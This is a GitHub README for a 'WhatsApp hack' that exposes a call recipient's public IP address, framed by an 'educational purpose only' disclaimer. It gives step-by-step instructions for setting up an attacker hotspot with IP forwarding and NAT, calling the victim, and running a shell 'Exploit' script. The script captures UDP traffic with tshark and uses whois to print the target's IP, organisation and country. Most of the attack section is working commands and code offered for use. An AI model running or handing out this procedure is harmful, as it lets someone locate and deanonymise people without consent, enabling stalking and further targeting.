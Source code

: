 # New WhatsApp Hack! 
![](https://img.shields.io/github/license/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/github/issues/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/github/issues-closed/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/badge/Python-3-blue)
![](https://img.shields.io/github/forks/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/github/stars/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/github/last-commit/Sahil2rick/Whatsapp-hack)
[![HitCount](http://hits.dwyl.com/)](http://hits.dwyl.com/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/badge/platform-Linux%20%7C%20KaliLinux%20%7C%20ParrotOs-blue)
  Public IP from victim caller.

This program is for Educational purpose ONLY. Do not use it without permission. I am not responsible for any of your actions. Use this tool with caution.

## Attack the victim ##

## Install hotspotd with these steps:
```
wget https://github.com/prahladyeri/hotspotd/raw/master/dist/hotspotd-latest.tar.gz
tar xvf hotspotd-latest.tar.gz
cd hotspotd-0.1.6/
sudo python setup.py install
```

- Step 1: Start WiFi hotspot on attacker machine and connect attacker phone to attacker SSID
```
sudo hotspotd start
```
- Step 2: Run the following commands:
 ```
 echo 1 > /proc/sys/net/ipv4/ip_forward
 iptables -t nat -I POSTROUTING -j MASQUERADE
 ```
- Step 3: Start the PoC script (below) on attacker machine which is now acting as a router for attacker phone
- Step 4: Call any whatsapp user randomly to capture the server IP addresses to filter
- Step 5: Call victim on his whatsapp
- Step 6: Disconnect the call once established
- Step 7: Script will reveal the public IP address of the target
- Step 8: Validate the public IP address on target phone

# Exploit

```
#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line 
do 
	whois $line > /tmp/b

	filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

	if [ "$filter" -gt 0 ] ; then 
		targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"` 
		echo $line --- $targetinfo 
	fi 
done


```
